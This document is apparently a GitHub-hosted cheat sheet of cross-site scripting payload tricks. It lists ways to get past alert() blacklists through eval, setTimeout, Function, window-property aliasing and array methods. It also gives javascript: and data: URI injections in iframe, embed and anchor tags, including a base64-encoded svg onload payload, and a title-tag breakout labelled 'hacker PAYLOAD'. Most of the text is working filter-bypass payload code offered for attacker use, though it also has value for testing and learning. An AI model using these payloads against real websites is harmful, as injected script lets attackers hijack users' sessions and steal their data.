 *XSS Payload Tricks:


For example, if the developer has blocked the alert function, the following trick can be used to bypass it:


 -function blacklist => alert()
        use eval() function , eval("string")
        eval() => Receives and executes the string
                      eval("alert(1)")

                      
Of course, alert, which is placed in eval as a string, can be encoded in different ways and placed in eval.

    
like eval:

            - setTimeout("string",time)
            - setInterval("string",time)
            - Function("string")


*You can also use this trick to specify the object of a class:

    -window.alert(1) => window["alert"](1)


 -like window:
 
     this , top , self , parent , frames 



    -[1].find(alert)
       -like find: 
   
         map, forEach , filter
          [1].find(window["alert"])


*location based XSS: 

    <iframe src="javascript:alert(1)"  >
    <embed src="javascript:alert(1)" >
    <a href="javascript:alert(1)">alert</a>
    <iframe src="data:text/html, <svg onload=alert(1) >" >
    <iframe src="data:text/html; Base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSkgPgo=" >


*You can't add <script> tag between <title>, <script>, <noscript> and <textarea> tags because it doesn't work!
So these tags should be closed first to do XSS:

    <title>Input</title> 
    
    hacker PAYLOAD => </title><script>alert(1);</script>



    
